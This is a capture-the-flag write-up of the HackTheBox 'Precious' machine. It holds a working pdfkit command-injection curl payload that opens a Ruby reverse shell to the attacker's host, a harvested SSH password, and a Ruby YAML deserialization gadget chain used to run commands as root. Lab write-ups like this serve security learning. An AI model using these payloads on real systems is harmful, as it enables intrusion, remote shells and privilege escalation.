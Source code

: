## [Precious](https://app.hackthebox.com/machines/Precious) - 11/04/2023 - HackTheBox write-up

### User flag

#### Discovery

With a `nmap` we can find the following informations:
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

On the HTTP server we can find a webpage who can convert a web page to a PDF by typing an URL.

It doesn't work with a remote URL so we have to try it on a local server.

With Python:
```bash
python -m http.server
```

And then, we can obtain a PDF with the URL: `http://LOCAL-IP:8000/`.

#### Search for vulnerability

After obtaining the PDF we can see in the EXIF data that it's generated with `pdfkit` (v0.8.6).

With a quick research on the Web, we found that this library is vulnerable to a RCE. We can easily initiate a reverse shell with the correct payload in the URL ([link](https://nvd.nist.gov/vuln/detail/CVE-2022-25765)).

#### Exploitation

An exploit is available [here](https://awesomeopensource.com/project/CyberArchitect1/CVE-2022-25765-pdfkit-Exploit-Reverse-Shell), we just have to type those 3 commands :
```bash
$ python -m http.server     # Local HTTP port :      8000 (default)
$ nc -nlvp 4444             # Local listening port : 4444
$ curl 'http://precious.htb' -X POST --data-raw 'url=http://LOCAL-IP:LOCAL-HTTP-PORT/?name=%20`+ruby+-rsocket+-e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("LOCAL-IP",LOCAL-LISTEN-PORT))'`'
```

Now we are connected to the server with a reverse shell as the `ruby` user. This user doesn't have much privileges, but we can find in his `/home` a file : `.bundle/config`.

In this we can find the creds of our first user : `henry:Q3c1AqGHtoI0aXAYFH`. With this we can connect with SSH and get the user flag.

### Root flag

#### Search for vulnerability

Now we need to find the root flag to own the system. With our user we can find interesting things with a `sudo -l`:
```bash
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

We can run this command as root with the user `henry`. Now if we look at this file `/opt/update_dependencies.rb`,
we can see the program use a function to read a YAML file :
```ruby
YAML.load(File.read("dependencies.yml"))
```

This function `YAML.load()` is vulnerable and we can use it to execute commands via deserialization (see [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md)).

#### Exploitation

Ruby version is 2.7.4 so we need to use the second gadget to execute commands. With this exploit we can write in our directory the file `dependencies.yml` :
```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cat /root/root.txt    # command here
         method_id: :resolve
```

Now by typing:
```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```
we can execute the command as root and see the flag.
